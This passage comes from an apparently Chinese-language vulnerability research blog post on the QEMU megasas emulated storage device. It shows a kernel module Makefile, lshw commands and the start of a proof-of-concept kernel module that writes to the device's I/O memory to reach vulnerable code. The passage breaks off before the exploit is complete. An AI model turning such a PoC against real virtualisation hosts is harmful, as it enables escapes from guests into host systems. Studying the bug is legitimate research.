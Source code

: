 Makefile

```c
obj-m := test.o
KERNELDR := /lib/modules/$(shell uname -r)/build
PWD := $(shell pwd)
modules:
		$(MAKE) -C $(KERNELDR) M=$(PWD) modules
moduels_install:
		$(MAKE) -C $(KERNELDR) M=$(PWD) modules_install
clean:
		rm -rf *.o *~ core .depend .*.cmd *.ko *.mod.c .tmp_versions
```

使用 `make` 编译，`sudo insmod hello.ko` 运行。

![]({{site.baseurl}}/images/2019-7-29/hello.png)


这样我们成功运行了一个内核模块，那么我们怎么和 megasas 设备进行交互呢，
一般 linux 设备的交互是通过 I/O 端口和 I/O 内存，我查到的资料说在虚拟机中，
当客户机的设备驱动程序发起 IO 请求时，内核 KVM 模块会截获这次请求，
然后经过翻译将本次请求放到内存里的 IO 共享页面，并通知客户机 QEMU 模拟进程
来处理本次请求。

理论可能是这么个理论，具体情况可能要深入分析 qemu 那一套才能弄明白了，
不过这里我们可以先不用管这一套，直接用 I/O 内存存取的方式与其交互。
每个外设都是通过读写其寄存器来控制的。通常一个设备有几个寄存器，
它们位于内存地址空间或者 I/O 地址空间，并且地址是连续的。

现在使用 lshw 命令获取设备信息，

```bash
sudo lshw -businfo # 获取设备信息
```

![]({{site.baseurl}}/images/2019-7-29/businfo.png)

```bash
sudo lshw -C storage
```

![]({{site.baseurl}}/images/2019-7-29/mega_info.png)

linux 内核提供了很多 I/O 操作，这里直接用对 I/O 内存的 writel 操作，
要到达漏洞代码所在位置的走这个函数。

![]({{site.baseurl}}/images/2019-7-29/mega_qw.png)

好了，现在我们的初始 POC 就是这样的：

```c
#include <linux/module.h>
#include <linux/ioport.h>
#include <linux/slab.h>
#include <asm/io.h>

MODULE_LICENSE("GPL");

#define VDA_IOMEM_BASE (0xfeb80000)

int m_init(void)
{
    printk("m_init\n");
    void * piomem = ioremap(VDA_IOMEM_BASE, 0x1000);

    writel(0x41, piomem+4); // set size

    iounmap(piomem);
```